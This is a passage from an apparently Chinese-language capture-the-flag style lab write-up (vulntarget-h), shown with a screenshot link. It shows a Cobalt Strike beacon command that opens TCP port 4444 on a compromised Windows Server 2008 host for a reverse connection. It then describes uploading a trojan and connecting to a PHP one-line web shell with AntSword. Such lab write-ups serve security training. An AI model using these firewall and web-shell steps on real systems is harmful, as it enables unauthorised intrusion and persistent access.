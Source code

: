 > ![Screenshot_2022-07-02_07-11-12.png](../images/vulntarget-h%20write-up/Screenshot_2022-07-02_07-11-12.png)
> 
> + 由于我们这个反向连接需要在Windows Sever 2008开放4444端口否则会无法连接。
> 
> ```bash
> beacon> shell netsh firewall set portopening tcp 4444 enable
> [*] Tasked beacon to run: netsh firewall set portopening tcp 4444 enable
> [+] host called home, sent: 77 bytes
> [+] received output:
> 
> 重要信息: 已成功执行命令。
> 但不赞成使用 "netsh firewall"；
> 而应该使用 "netsh advfirewall firewall"。
> 有关使用 "netsh advfirewall firewall" 命令
> 而非 "netsh firewall" 的详细信息，请参阅
> http://go.microsoft.com/fwlink/?linkid=121488
> 上的 KB 文章 947709。
> 
> 确定。
> ```
> 
> + 接下来我们就需要利用蚁剑把木马上传到Windows 7的`C:\phpstudy_pro\`目录然后再执行木马。（为什么不是上传到`WWW`目录，因为`C:\phpstudy_pro\`没有写入权限。）
> 
> + 使用蚁剑连接`dsuijaddjsfvos.php`文件的一句话木马。在连接一句话木马之前需要配置一下蚁剑的代理。
> 